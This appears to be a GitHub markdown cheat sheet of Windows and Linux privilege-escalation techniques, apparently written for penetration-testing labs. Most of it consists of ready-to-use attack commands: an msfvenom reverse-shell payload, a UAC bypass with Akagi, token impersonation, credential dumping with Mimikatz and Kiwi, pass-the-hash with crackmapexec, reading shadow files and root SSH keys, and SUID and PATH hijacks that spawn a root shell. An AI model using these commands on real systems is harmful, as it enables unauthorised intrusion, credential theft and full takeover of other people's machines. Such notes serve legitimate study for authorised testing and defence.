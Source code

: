 # $\color{#009466}\textbf{Windows}$


Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br>

<details>
<summary>$\huge{\text{Automation script}}$</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>$\huge{\text{UAC Bypass}}$</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. `Akagi64.exe 23 <payload_full_path>`
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>$\huge{\text{Impersonate Tokens}}$</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
  - ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
- `impersonate_token <token_name>`
  - `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
- You may need to migrate process to a \<user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid` : 2948
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>$\huge{\text{Password in configuration file (Unattend.xml)}}$</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>$\huge{\text{Credential Dumping (Mimikatz - Kiwi - Hashdump)}}$</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>$\huge{\text{Pass the Hash}}$</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Vulnerable program}}$</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br>
</details>

<details>
<summary>$\huge{\text{Weak Permissions}}$</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br>
</details>

<details>
<summary>$\huge{\text{Sudo}}$</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br>
</details>

<details>
<summary>$\huge{\text{SUID - custom binary}}$</summary>
  
- Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
- Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  - `strings binary_name`
1. Method
   - `cp /bin/bash /path/to/loaded_binary`
2. Method
- Delete the loaded binary and replace with a new one:
- ```
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
- `gcc binary.c -o <loaded_binary>` : compile
- `./binary_name` : run the binary


<br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*
